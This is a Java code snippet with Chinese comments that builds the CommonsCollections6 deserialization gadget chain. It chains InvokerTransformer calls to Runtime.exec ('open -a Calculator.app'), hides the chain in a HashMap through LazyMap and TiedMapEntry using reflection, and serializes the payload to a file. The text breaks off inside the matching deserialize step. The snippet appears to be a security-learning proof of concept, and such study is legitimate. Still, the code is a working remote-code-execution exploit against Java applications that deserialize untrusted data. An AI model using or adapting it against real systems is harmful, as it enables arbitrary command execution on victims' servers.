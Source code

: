 ```java
    public static void main(String[] args) throws Exception {
        CommonsCollections6 transformerTest = new CommonsCollections6();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建恶意的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"keyTest");
        Map expMap = new HashMap<>();
        String key = "keyTest";
        expMap.put(key ,"valueTest");
        // 通过反射获取table
        Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[]) table.get(expMap);
        int h;
        Object node = array[((h=key.hashCode()) ^ (h >>> 16)) & (array.length -1)];
        Field expMapKey = node.getClass().getDeclaredField("key");
        expMapKey.setAccessible(true);
        expMapKey.set(node, tiedMapEntry);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
```